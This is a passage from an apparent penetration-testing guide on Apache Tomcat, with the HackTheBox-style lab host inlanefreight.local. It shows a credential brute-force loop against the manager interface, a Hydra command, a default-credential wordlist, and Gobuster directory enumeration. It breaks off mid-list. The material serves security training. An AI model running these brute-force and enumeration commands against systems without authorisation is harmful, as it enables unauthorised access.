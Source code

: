 ```bash
        "http://target.com:8080/manager/html" \
        -w "%{http_code}")
    
    if [[ $response == *"200"* ]]; then
        echo "[+] Valid credentials found: $username:$password"
    fi
done
```

#### Automated Credential Testing
```bash
# Hydra-based brute force attack
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt \
  target.com -s 8080 http-get /manager/html

# Custom wordlist creation for Tomcat:
cat > tomcat_creds.txt << 'EOF'
admin:admin
admin:password
admin:tomcat
admin:manager
admin:
tomcat:tomcat
tomcat:admin
tomcat:password
tomcat:
manager:manager
manager:admin
manager:password
manager:tomcat
manager:
root:root
root:admin
root:password
EOF

# Burp Intruder compatible testing:
# Use cluster bomb attack on /manager/html with credential pairs
```

---

## Application and Service Enumeration

### Directory and File Discovery

#### Gobuster Enumeration
```bash
# Comprehensive directory enumeration
gobuster dir -u http://web01.inlanefreight.local:8180/ \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -t 50 -x jsp,html,xml,txt

# Expected findings:
# /docs (Status: 302)     - Documentation
# /examples (Status: 302) - Sample applications  
# /manager (Status: 302)  - Management interface
# /ROOT (Status: 200)     - Default application
# /host-manager (Status: 401) - Virtual host management

# Tomcat-specific wordlist:
cat > tomcat_paths.txt << 'EOF'
admin
```
